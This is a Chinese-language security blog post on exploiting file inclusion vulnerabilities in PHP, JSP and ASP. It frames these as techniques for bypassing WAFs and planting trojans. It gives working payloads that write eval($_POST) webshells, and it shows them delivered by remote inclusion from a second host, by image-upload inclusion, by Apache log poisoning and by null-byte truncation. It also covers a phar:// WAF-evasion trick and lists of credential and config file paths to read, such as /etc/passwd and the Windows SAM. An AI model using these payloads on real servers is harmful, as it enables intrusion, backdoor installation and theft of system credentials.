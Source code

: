 ```yaml
---
title: 文件包含漏洞(绕过姿势)
date: 2017-04-10 14:12:54
comments: true
tags:
- 文件包含漏洞
categories: web安全
permalink: 02
---
```

<blockquote class="blockquote-center">谁将烟焚散，散了纵横的牵绊</blockquote>
　　文件包含漏洞是渗透测试过程中用得比较多的一个漏洞，主要用来绕过waf上传木马文件。今日在逛Tools论坛时，发现了一种新型的文件包含姿势，在此记录分享，并附上一些文件包含漏洞的基础利用姿势。
<!--more -->
### 特殊姿势
　　利用phar://协议特性可以在渗透过程中帮我们绕过一些waf检测，phar:// 数据流包装器自 PHP 5.3.0 起开始有效，貌似可以绕过安全狗。
#### 利用过程
新建shell.php代码内容：
```bash
<?php
include 'phar://test.rar/test.txt';
?>
```
新建test.txt里的内容：
```bash
<?php
phpinfo();
?>
```
　　压缩test.txt文件，可以重命名压缩文件为zip,phar,rar等格式，之后访问shell.php文件后，会出现phpinfo内容。
#### 亲测有效
在实验环境下，在test目录下新建shell.php，test.txt，并将test.txt打包成test.zip。
![](/upload_image/20170410/1.png)
shell.php内容如下：
![](/upload_image/20170410/2.png)
test.txt内容如下：
![](/upload_image/20170410/3.png)
访问shell.php:
![](/upload_image/20170410/4.png)

参考：http://bbs.pediy.com/thread-216191.htm

### php文件包含漏洞
PHP中的文件包含分为本地包含与远程包含。
#### 本地包含
新建一个phpinfo.txt，然后新建一个shell.php，写入：
```bash
<?php
    Include("phpinfo.txt");
?>
```
　　访问shell.php会输出phpinfo页面内容，无论将扩展名改为什么，都将以php代码执行。如果文件不是符合php规则的（即没有写<?php ?>等），则通过include可以直接输出源码。

#### 远程包含
前提：需要开启allow_url_fopen，默认关闭。
新建php.txt:
```bash
<?php
   echo "hello world";
?>
```
新建index.php:
```bash
<?php
    Include($_GET['page']);
?>
```
访问*http://www.xxxx.com/page=http://www.xxxx.com/php.txt*执行结果将输出hello world。

#### 文件包含利用

##### 读取敏感信息
如：http://www.xxx.com/index.php?page=/etc/passwd
Windows:
```bash
c:\boot.ini
c:\windows\systems32\inetsrv\MetaBase.xml
c:\windows\repair\sam
c:\windows\php.ini             php配置文件
c:\windows\my.ini               mysql配置文件
```
LINUX:
```bash
/etc/passwd
/usr/local/app/apache2/conf/http.conf
/usr/local/app/php5/lib/php.ini          PHP相关设置
/etc/httpd/conf/http.conf                    apache配置文件
/etc/my.cnf                                              mysql配置文件
```

##### 远程包含shell
test.txt文件，可以保存在远程服务器上，内容如下：
```bash
<?fputs(fopen("shell.php","w"),"<?php eval($_POST[nmask]);?>")?>
```
　　如果目标网站存在远程包含漏洞，则可以通过访问：*http://www.xxx1.com/index.php?page=http://www.xx2.com/test.txt*则会在服务器根目录下生产一个shell.php内容为:
```bash
<?php   eval($_POST[nmask]);?>
```

##### 本地包含配合文件上传
如果目标服务器关闭了allow_url_fopen，则可以尝试使用本地包含+文件上传
上传一个图片木马a.jpg，内容为：
```bash
<?fputs(fopen("shell.php","w"),"<?php eval($_POST[tzc]);?>")?>
```
访问URL：*http://www.xxx.com/index.php?page=./a.jpg*在本地生成shell.php。


##### 本地包含配合apache日志拿shell
　　apache日志分为access.log与error.log，当我们请求一个url地址时，便会记录在access.log中，但如果访问一个不存在的页面，便会将这个页面写入access.log中。如访问URL:*http://www.xxx.com/<?php eval([$_POST]);?>*则会将一句话写入到access.log中，但是一般来说，写入到access.log文件中的一句话是被编码的，所以需要抓包绕过，而且利用此漏洞需要知道access.log的地址，不然便没有。

##### 截断包含
有些开发者为了防止本地包含漏洞，会编写一下代码:
```bash
<?php
    Include  $_GET['page'].".php"
?>
```
新建1.jpg:
```bash
<?fputs(fopen("shell.php","w"),"<?php eval($_POST[tzc]);?>")?>
```
　　这样的话比如上传一个1.jpg图片码，则访问*http://www.xxx.com/1.jpg*时，访问的是1.jgp.php，以为没有这个文件所以报错。这是，可以尝试访问*http://www.xxx.com/1.jpg%00*

### jsp文件包含漏洞

#### include
```bash   
<%@ include file="head.jsp"%>
<%@ include file="body.jsp"%>
<%@ include file="tail.jsp"%>
```
#### jsp:include  
```bash   
<jsp:include page="head.jsp"/>
<jsp:include page="body.jsp"/>   
<jsp:include page="tail.jsp”/>
```
#### 采用JSTL
```bash
<c:import url="http://thief.one/1.jsp">
```

#### 说明
(1)include指令在转换时插入“Header.jsp”的源代码，而<jsp:include>标准动作在运行时插入“Header.jsp"的响应。<jsp:include>元素允许你包含动态文件和静态，而include说明标签仅仅是把一个文件内容当成静态追加到主文件中去。
(2)采用前两种方式，只能包含当前web应用的界面，不过c:import可以包含容器之外的内容。

### asp文件包含漏洞
asp貌似无法包含远程文件（iis安全设置），只能包含本地文件，语法如下：
```bash
<!--#include file="1.aspx" -->
```
### aspx文件包含漏洞
aspx文件包含与asp一样，语法如下：
```bash
<!--#include file="top.aspx" -->
```

### 传送门
[文件上传漏洞(绕过姿势)](http://thief.one/2016/09/22/%E4%B8%8A%E4%BC%A0%E6%9C%A8%E9%A9%AC%E5%A7%BF%E5%8A%BF%E6%B1%87%E6%80%BB-%E6%AC%A2%E8%BF%8E%E8%A1%A5%E5%85%85/)

>转载请说明出处:[文件包含漏洞| nMask'Blog](http://thief.one/2017/04/10/2/)
本文地址：http://thief.one/2017/04/10/2/